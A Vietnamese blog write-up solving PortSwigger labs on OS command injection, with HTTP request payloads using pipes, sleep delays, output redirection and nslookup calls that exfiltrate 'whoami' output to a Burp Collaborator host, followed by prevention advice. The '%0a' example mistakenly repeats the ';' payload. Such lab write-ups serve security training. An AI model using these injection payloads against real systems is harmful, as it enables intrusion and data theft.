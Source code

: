 ```yaml
---
title: "[PortSwigger Lab] - OS Command Injection"
description: Solution of OS Command Injection on PortSwigger Lab
date: 2025-06-01 21:00:00 +0700
categories: [Cyber ​​Security, Web Pentest]
tags: [portswigger, burpsuite, labs, web, vulnerability, os command injection]   
pin: false
comments: true
image:
    path: https://raw.githubusercontent.com/waibui/blog-assets/refs/heads/main/imgs/posts/2025-06-01-portswigger-lab-os-command-injection/command-injection.jpg
    alt: OS Command Injection
---
```


## Introduction
---
**OS Command Injection** (còn gọi là **Shell Injection**) là một lỗ hổng bảo mật cho phép kẻ tấn công chèn và thực thi các lệnh hệ điều hành (như **Linux** hoặc **Windows**) trên máy chủ mà ứng dụng đang chạy.

## Solve OS Command Injection Lab
---
### Lab: OS command injection, simple case
Gửi request với storedId có chứa `injection`
```http
POST /product/stock HTTP/2
Host: 0a9a004a03f80ca4810489f000550085.web-security-academy.net
...
productId=20&storeId=1|whoami
```

- Dùng pipe `|` để truyền **output (stdout)** của lệnh bên trái sang làm **input (stdin)** của lệnh bên phải.
- Trên thực tế, `whoami` không nhận input từ stdin – nó chỉ in ra username rồi kết thúc.

### Lab: Blind OS command injection with time delays
- Submit 1 feadback bất kì, gửi request đến **Repeater**
- Gửi lại với các request sau:

- Dùng toán từ `OR (||)` để thực hiện lệnh khác sau khi lệnh gửi email lỗi
```http
POST /feedback/submit HTTP/2
Host: 0af200430494500780c6bcfb0081002f.web-security-academy.net
...
csrf=Idkvt9a5GZZDZDTsMAgG4PotPi2BT0N0&name=a&email=a||sleep+10||&subject=a&message=a
```

- Sử dụng `;` để tách lệnh và `#` để command lệnh đằng sau
```http
POST /feedback/submit HTTP/2
Host: 0af200430494500780c6bcfb0081002f.web-security-academy.net
...
csrf=Idkvt9a5GZZDZDTsMAgG4PotPi2BT0N0&name=a&email=a%40gmail.com+;+sleep+10+#&subject=a&message=a
```

- Sử dụng `\n` được mã hóa thành `%0a` để xuống dòng và `#` để command lệnh đằng sau
```http
POST /feedback/submit HTTP/2
Host: 0af200430494500780c6bcfb0081002f.web-security-academy.net
...
csrf=Idkvt9a5GZZDZDTsMAgG4PotPi2BT0N0&name=a&email=a%40gmail.com+;+sleep+10+#&subject=a&message=a
```

### Blind OS command injection with output redirection
Ý tưởng: **Submit feedback** đi kèm việc tạo ra file chứa nội dung cần lấy vào `/var/www/images/` rồi lấy nó giống như lấy file ảnh
#### Checking OS command can be excuted
- Request:
```http
POST /feedback/submit HTTP/2
Host: 0a7700ba034387a282e79c1a004200a4.web-security-academy.net
...
csrf=0p6kVqRROiiK4hK8IgaUtSF7uxrocNMp&name=a&email=a%40gmail.com+;+sleep+10+#&subject=a&message=a
```
- Nếu nó thực sự hoạt động sẽ response chậm 10s

#### Exploit
- Request:
```http
POST /feedback/submit HTTP/2
Host: 0a7700ba034387a282e79c1a004200a4.web-security-academy.net
...
csrf=0p6kVqRROiiK4hK8IgaUtSF7uxrocNMp&name=a&email=a%40gmail.com+;+whoami>/var/www/images/whoami.txt+#&subject=a&message=a
```

- Đọc file được tạo the đường dẫn
```
https://0a7700ba034387a282e79c1a004200a4.web-security-academy.net/image?filename=whoami.txt
```

### Lab: Blind OS command injection with out-of-band interaction
#### Checking OS command can be excuted
- Request:
```http
POST /feedback/submit HTTP/2
Host: 0a7700ba034387a282e79c1a004200a4.web-security-academy.net
...
csrf=0p6kVqRROiiK4hK8IgaUtSF7uxrocNMp&name=a&email=a%40gmail.com+;+sleep+10+#&subject=a&message=a
```
- Nếu nó thực sự hoạt động sẽ response chậm 10s
- ở đây nó đã chặn lệnh sleep 10 

Ý tưởng: sử dụng nslookup ra 1 server bên ngoài để kiếm tra OS command có hoạt động hay không

#### Exploit
- Sử dụng **Burp Colloborator** để làm server nhận request
- Request:
```http
POST /feedback/submit HTTP/2
Host: 0a7700ba034387a282e79c1a004200a4.web-security-academy.net
...
csrf=shDKgLg9f2ImcfCVEmCOxKGfnhy5KLca&name=a&email=a%40gmail.com+;+nslookup+0jk9byyvrh6otbzhihvxlok9y04rsig7.oastify.com+#&subject=a&message=a
```
- Poll now để lấy request về và xác nhận 

### Blind OS command injection with out-of-band data exfiltration
Tương tự như lab trên nhưng ta cần lấy nội dung của lệnh `whoami`
Payload:
```http
POST /feedback/submit HTTP/2
Host: 0a7700ba034387a282e79c1a004200a4.web-security-academy.net
...
csrf=shDKgLg9f2ImcfCVEmCOxKGfnhy5KLca&name=a&email=a%40gmail.com+;+nslookup+`whoami`.0jk9byyvrh6otbzhihvxlok9y04rsig7.oastify.com+#&subject=a&message=a
```
Hoặc
```http
POST /feedback/submit HTTP/2
Host: 0a7700ba034387a282e79c1a004200a4.web-security-academy.net
...
csrf=shDKgLg9f2ImcfCVEmCOxKGfnhy5KLca&name=a&email=a%40gmail.com+;+nslookup+$(whoami).0jk9byyvrh6otbzhihvxlok9y04rsig7.oastify.com+#&subject=a&message=a
```
- Trên các hệ thống dựa trên **UNIX**, bạn cũng có thể sử dụng **BackTicks(`` `...` ``)** hoặc ký tự **đồng đô la `$()`**để thực hiện thực thi nội tuyến của một lệnh được tiêm trong lệnh gốc

## Prevent
---
1. Cách tốt nhất: Không gọi lệnh hệ điều hành
2. Nếu bắt buộc phải gọi shell
    - Dùng danh sách trắng (whitelist)
    - Chỉ cho phép số nếu cần
    - Chỉ cho phép ký tự chữ và số (alphanumeric)

3. Không nên làm: "escape" ký tự đặc biệt
Đừng cố gắng "lọc" hoặc "thoát" các ký tự như ;, |, & trong input người dùng. Vì sao?
- Hacker biết rất nhiều cách mã hóa để vượt qua
- Escape không thể bảo vệ 100%
- Rất dễ sót lọt những trường hợp đặc biệt

---
Goodluck! 🍀🍀🍀
